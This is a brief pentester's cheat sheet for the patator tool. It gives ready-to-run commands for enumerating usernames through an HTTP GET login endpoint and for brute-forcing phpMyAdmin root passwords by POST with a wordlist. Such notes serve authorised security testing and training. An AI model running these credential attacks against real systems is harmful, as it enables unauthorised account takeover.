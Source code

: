 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

```bash - kali
git clone https://github.com/lanjelot/patator && cd patator
```

#### Blind SQL injection
[[1.7_Blind SQLi]]

#### Fuzz Get Request
```bash - kali
python3 patator.py http_fuzz method=GET url="http://$TARGET/ajax.php?fun=login&username=FILE0&password=test" 0=users.txt -x ignore:fgrep='invalid user'
```

#### Fuzz Post Request
```bash - kali
python3 patator.py http_fuzz url=http://$TARGET/phpmyadmin/index.php method=POST body='pma_username=root&pma_password=FILE0&server=1&lang=en' 0=passwords.txt follow=1 accept_cookie=1 -x ignore:fgrep='Cannot log in to the MySQL server'
```

#### Attack from Burp request
Place in your FILE placeholders where necessary.  Below, we see in the password field.

![[Pasted image 20220318104320.png]]

Right click > copy to file > "copy to file" as text file.


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
